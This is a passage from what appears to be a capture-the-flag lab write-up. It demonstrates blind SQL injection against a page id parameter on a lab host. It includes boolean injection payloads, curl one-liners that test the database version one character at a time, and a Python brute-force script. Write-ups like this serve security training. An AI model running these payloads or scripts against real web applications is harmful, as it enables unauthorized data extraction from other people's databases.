 #### Blind SQLI POC

I can use this as a blind SQLI proof of concept. If I enter
`id=587' and 1=1-- -`, which I expect to match on page id 587 because
`1=1` will always be true, I do get back page 587, contact. But if I
enter `id=587' and 1=2-- -` it returns the main page.

I can put more interesting checks into that spot. For example, if I want
to check the version of database running, I can brute force it character
by character by replacing the `1=1` with `substring(@@version,1,1)=a` to
check if the first character is a.

So knowing that the database version starts with `1`, I can show that
this works:



    root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='a'--+-" | grep -q 2001); then echo false; else echo true; fi
    false
    root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='0'--+-" | grep -q 2001); then echo false; else echo true; fi
    false
    root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='1'--+-" | grep -q 2001); then echo false; else echo true; fi
    true



I can even throw together a quick `python` script that will brute the
version for me:



    #!/usr/bin/env python3

    import requests
    import string
    import sys
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    i = 1
    while True:
        done = True
        for c in string.printable[:-10]:
            param = {"id": f"587' and substring(@@version,{i},1)='{c}'-- -"}
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            resp = requests.get("https://www.nestedflanders.htb/index.php", params=param, verify=False, proxies={'https': 'https://127.0.0.1:8080'})
            if not "2001" in resp.text:
                sys.stdout.write(c)
                sys.stdout.flush()
                i += 1
                done = False
                break
        if done:
            break
